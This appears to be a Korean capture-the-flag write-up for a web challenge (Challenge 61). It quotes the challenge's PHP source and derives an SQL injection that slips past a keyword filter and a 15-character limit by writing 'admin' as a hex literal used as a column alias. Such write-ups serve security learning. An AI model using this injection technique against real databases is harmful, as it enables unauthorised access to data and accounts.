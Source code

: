# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-03-38-18.png)


# **Write-Up**

view-source를 클릭하면 id에 들어가는 값이 컬럼이 된다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if(!$_GET['id']) $_GET['id']="guest";
  echo "<html><head><title>Challenge 61</title></head><body>";
  echo "<a href=./?view_source=1>view-source</a><hr>";
  $_GET['id'] = addslashes($_GET['id']);
  if(preg_match("/\(|\)|select|from|,|by|\./i",$_GET['id'])) exit("Access Denied");
  if(strlen($_GET['id'])>15) exit("Access Denied");
  $result = mysqli_fetch_array(mysqli_query($db,"select {$_GET['id']} from chall61 order by id desc limit 1"));
  echo "<b>{$result['id']}</b><br>";
  if($result['id'] == "admin") solve(61);
  echo "</body></html>";
?>
```

SELECT 'admin' as id를 넣으면 id컬럼명에 데이터는 admin이 들어간다.

![](images/2022-01-03-03-38-39.png)

따옴표를 넣으면 addslashes에 의해서 백슬래쉬가 앞에 붙어 SQL Error가 날 것이다. 따라서 hex값으로 바꿔보자.

```python
query = '0x'+'admin'.encode().hex()+' as id'
print(query, len(query))

[Output]
0x61646d696e as id 18
```

하지만 글자 수가 18자리로서 제한된 글자 수를 초과한다. 따라서 as 를 빼면 15자리로 서 모든 조건을 만족할 수 있다.

점수를 획득하자.

![](images/2022-01-03-03-39-31.png)